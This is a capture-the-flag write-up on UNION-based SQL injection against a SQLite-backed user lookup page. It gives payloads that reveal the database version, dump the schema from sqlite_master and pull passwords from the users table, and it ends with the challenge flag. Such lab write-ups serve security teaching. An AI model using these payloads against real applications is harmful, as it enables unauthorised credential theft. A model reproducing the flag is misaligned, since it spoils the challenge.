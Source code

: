 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> Select the user by ID you wish to view

![1](https://github.com/Kunull/Write-ups/assets/110326359/6a959b03-a547-4541-905b-a2a9d80c4848)

Let's click on the `Submit Query` button.

![2](https://github.com/Kunull/Write-ups/assets/110326359/fdd16ff0-d37f-44e2-b1db-91355a5734fb)

Reading the source code, we can see that the database being used is SQLite and our input is being inserted within the following query:

![3](https://github.com/Kunull/Write-ups/assets/110326359/1742de8f-980c-4496-86c4-342d14b2d981)

```sql
SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1
```

## SQL Injection

In order to retrieve the flag, we first need to retrieve the table name. We can refer this [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) list.
### Retrieving SQLite version

The SQLite version can be retrieved using the following query:

```sql
SELECT sqlite_version();
```

Since the original `SELECT` statement selects two columns, we need to do the same in our `UNION` query.

If we provide the following input:

```
1 UNION SELECT Null, sqlite_version();
```

The resultant query will be:

```sql
SELECT id,username FROM users WHERE id=1 UNION SELECT Null, sqlite_version(); LIMIT 1
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/19852d2c-fdd7-4314-b30a-317dfa687674)

The version of SQLite being used is `3.27.2`.

### Listing the tables

For SQLite versions `3.33.0` and previous, the `sqlite_master` table contains the schema for the database including information about all the tables, indexes, views, and triggers that exist in the database.

```sql
SELECT sql FROM sqlite_master
```

If we provide the following input:

```
1 UNION SELECT Null, sql FROM sqlite_master;
```

The resultant query becomes:

```sql
SELECT id,username FROM users WHERE id=1 UNION SELECT Null, sql FROM sqlite_master; LIMIT 1
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/e4d213c2-8870-4a0e-88be-584162fcd0a5)

There is a `users` table which has three columns: `id`, `username` and `password`.

### Retrieving the flag

Now that we know the table name is `users`, we can easily retrieve the password from the table.

If we provide the following input:

```
1 UNION SELECT id, password FROM users;
```

The resultant query becomes:

```
SELECT id,username FROM users WHERE id=1 UNION SELECT id, password FROM users; LIMIT 1
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/76b1488a-e890-45b5-8fc7-d4f598288910)

## Flag

```
WEBSEC{Simple_SQLite_Injection}
```
